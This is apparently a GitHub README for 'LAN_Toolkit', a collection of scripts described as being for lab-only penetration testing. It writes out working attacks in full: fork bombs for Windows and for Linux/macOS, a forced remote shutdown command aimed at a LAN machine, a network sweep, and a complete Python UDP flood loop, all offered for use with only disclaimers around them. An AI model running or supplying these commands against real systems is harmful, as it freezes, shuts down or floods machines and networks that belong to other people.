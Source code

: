 # LAN_Toolkit

## Introduction:
This toolkit contains several scripts designed for educational purposes to test and simulate attacks on devices within your own test environment. The commands simulate freezing or shutting down systems on a local network (LAN).

**Warning:** These actions can **disrupt** and **damage** systems. Use only in a **safe lab** environment or virtual machine setup.

## Files:
- `scan_lan.sh`: Scans the local network for devices (Linux/macOS).
- `shutdown_target.cmd`: Forces shutdown on a target machine (Windows).
- `freeze.bat`: Freezes the system by executing a fork bomb (Windows).
- `forkbomb.sh`: Freezes the system by executing a fork bomb (Linux/macOS).
- `udp_flood.py`: Simulates a UDP flood to overload a target machine (Python).

## Legal Disclaimer:
**Do not** attempt to use these tools on machines or networks without explicit permission from the owner. Unauthorized access or disruption is illegal and can result in legal consequences.





















# LAN_Toolkit
LAN_Toolkit is a set of scripts ethical penetration testing purposes, specifically tailored to analyze and simulate attacks on machines within a local area network (LAN). These tools are intended for use in controlled environments

🚀 Key Features of LAN_Toolkit:
Network Discovery:

scan_lan.sh: A tool that helps you discover devices connected to your local network. It uses the powerful nmap utility to identify live hosts, their IP addresses, and MAC addresses, as well as some services running on those devices.

Shutdown Target Machine:

shutdown_target.cmd: A Windows-specific script that allows you to forcefully shut down a target machine within the same network. This is achieved using Windows' built-in shutdown command with remote access (\\<target_ip>).

System Freeze (Fork Bomb):

freeze.bat (Windows) and forkbomb.sh (Linux/macOS): These scripts trigger a fork bomb—an infinite loop of processes that causes the system to become unresponsive and effectively freeze. This is an overload attack that consumes all available system resources.

These scripts are powerful, so they should only be run in safe, controlled environments, such as VMs, to prevent any lasting damage.

UDP Flood Attack:

udp_flood.py: A Python script that simulates a UDP flood attack, overwhelming the target machine with an excessive number of UDP packets, potentially causing system slowdown, crash, or network disruptions. This can be useful for testing a machine's resilience to network-based attacks.

User-friendly Documentation:

README.md: A detailed explanation of each tool, how to use them, and a legal disclaimer about responsible use.

commands_reference.txt: This text file offers in-depth explanations of the individual commands and scripts, as well as the proper context for each tool.

⚠️ Legal Disclaimer:
LAN_Toolkit is for educational and ethical penetration testing only. The scripts provided here are meant to simulate attacks in safe, controlled environments, such as virtual labs or personal test systems. Unauthorized use of these tools can lead to legal consequences. You must never use these scripts on a network or system without explicit permission from the owner of the devices.

🌐 Tool Usage Overview:
1. Discover Devices on the LAN:
To identify machines on the same network, you can run the scan_lan.sh script (for Kali Linux/macOS) or use arp -a on Windows. This helps you gather essential information like IP addresses, MAC addresses, and any running services that might be of interest for testing.

Example for Kali/Linux/macOS:

bash
nmap -sn 192.168.1.0/24
2. Shutdown Target Machine:
Once you have identified a machine's IP address, you can remotely shut it down using the shutdown_target.cmd script (Windows only). The script allows you to issue a shutdown command to the target machine, forcing it to power off.

Example for Windows:

cmd
shutdown /s /f /t 0 /m \\192.168.1.5
3. Freeze the System:
Both Windows and Linux/macOS are susceptible to a fork bomb attack, which rapidly consumes system resources, causing the system to become unresponsive. The freeze.bat script works on Windows, while forkbomb.sh works on Linux/macOS.

Example for Windows (Fork Bomb):

bat
%0|%0
Example for Linux/macOS (Fork Bomb):

bash
:(){ :|:& };:
4. UDP Flood Attack:
For a network overload attack, the udp_flood.py script sends a massive number of UDP packets to a target machine, potentially causing it to become slow or crash. This can be useful to test a device’s resilience to high network traffic.

Example for Python UDP Flood:

python
import socket
target = "192.168.1.5"  # IP of the target machine
port = 80               # Port (e.g., HTTP port)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
data = b"A" * 1024      # Data packet to send
while True:
    sock.sendto(data, (target, port))  # Send the UDP packet
📁 File Structure Overview:
The LAN_Toolkit directory includes the following files:

scan_lan.sh: A bash script for discovering devices in the LAN.

shutdown_target.cmd: A Windows command to shut down a target computer in the network.

freeze.bat: A Windows batch file to execute a fork bomb and freeze the system.

forkbomb.sh: A Linux/macOS script for triggering a fork bomb to freeze the system.

udp_flood.py: A Python script to simulate a UDP flood attack.

README.md: A guide explaining the purpose, usage, and legal notes for each tool.

commands_reference.txt: A reference file with detailed explanations of each command.

🎯 Why Use LAN_Toolkit?
Educational Use: Ideal for learning about network security, penetration testing, and system vulnerabilities in a controlled environment.

Test System Resilience: Helps you assess how well your systems respond to network overloads, shutdown commands, or freeze attacks.

Virtual Lab Setup: Works perfectly for virtualized testing environments (e.g., VMs) to simulate attacks without harming production systems.
